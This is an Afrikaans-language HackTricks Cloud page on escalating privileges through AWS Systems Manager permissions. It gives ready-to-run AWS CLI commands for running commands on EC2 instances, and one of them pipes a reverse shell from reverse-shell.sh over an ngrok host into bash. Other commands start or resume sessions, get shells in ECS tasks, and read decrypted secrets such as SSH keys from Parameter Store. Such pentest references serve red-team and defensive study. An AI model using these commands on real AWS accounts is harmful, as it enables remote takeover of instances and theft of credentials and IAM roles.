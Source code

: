 # AWS - SSM Privesc

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## SSM

Vir meer inligting oor SSM, kyk:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

'n Aanvaller met die toestemming **`ssm:SendCommand`** kan **opdragte uitvoer in instansies** wat die Amazon SSM Agent hardloop en die IAM Rol **kompromitteer** wat binne-in dit hardloop.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Indien jy hierdie tegniek gebruik om voorregte binne 'n reeds gekompromitteerde EC2-instantie te eskaleer, kan jy net die rev shell plaaslik vasvang met:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM-rolle wat aan lopende instansies met SSM-agente geheg is.

### `ssm:StartSession`

'n Aanvaller met die toestemming **`ssm:StartSession`** kan **'n SSH-soort sessie begin in instansies** wat die Amazon SSM-agent hardloop en **die IAM-rol kompromitteer** wat binne-in dit hardloop.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Om 'n sessie te begin, moet die **SessionManagerPlugin** geïnstalleer wees: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potensiële Impak:** Direkte privesc na die EC2 IAM-rolle wat aan lopende instansies met SSM Agents gekoppel is.

#### Privesc na ECS

Wanneer **ECS-take** met **`ExecuteCommand` geaktiveer** loop, kan gebruikers met genoeg regte `ecs execute-command` gebruik om 'n bevel binne die houer uit te voer.\
Volgens [**die dokumentasie**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) word dit gedoen deur 'n veilige kanaal tussen die toestel wat jy gebruik om die "_exec_" bevel te begin en die teikenhouer met SSM Session Manager te skep.\
Daarom sal gebruikers met `ssm:StartSession` in staat wees om 'n skaal binne ECS-take te kry met daardie opsie geaktiveer deur net die volgende uit te voer:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potensiële Impak:** Direkte privesc na die `ECS`IAM-rolle wat aan lopende take geheg is met `ExecuteCommand` wat ingeskakel is.

### `ssm:ResumeSession`

'n Aanvaller met die toestemming **`ssm:ResumeSession`** kan 'n SSH-soortgelyke sessie her-**begin in instansies** wat die Amazon SSM-agent met 'n **afgekoppelde** SSM-sessiestaat hardloop en die IAM-rol **kompromitteer** wat binne-in dit hardloop.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM-rolle wat aan lopende instansies gekoppel is met SSM-agente wat loop en afgekoppelde sessies.

### `ssm:BeskryfParameters`, (`ssm:KryParameter` | `ssm:KryParameters`)

'n Aanvaller met die genoemde regte sal in staat wees om die **SSM parameters** te lys en hulle in **klare teks te lees**. In hierdie parameters kan jy dikwels **sensitiewe inligting** soos SSH-sleutels of API-sleutels vind.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potensiële Impak:** Vind sensitiewe inligting binne die parameters.

### `ssm:ListCommands`

'n Aanvaller met hierdie toestemming kan al die **opdragte** wat gestuur is lys en hopelik **sensitiewe inligting** daarop vind.
```
aws ssm list-commands
```
**Potensiële Impak:** Vind sensitiewe inligting binne die opdraglyne.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

'n Aanvaller met hierdie regte kan al die **opdragte** lys wat gestuur is en die uitset gegenereer **lees** in die hoop om **sensitiewe inligting** daarin te vind.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die uitset van die bevellyne.

### Codebuild

Jy kan ook SSM gebruik om binne 'n codebuild projek wat gebou word te kom:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
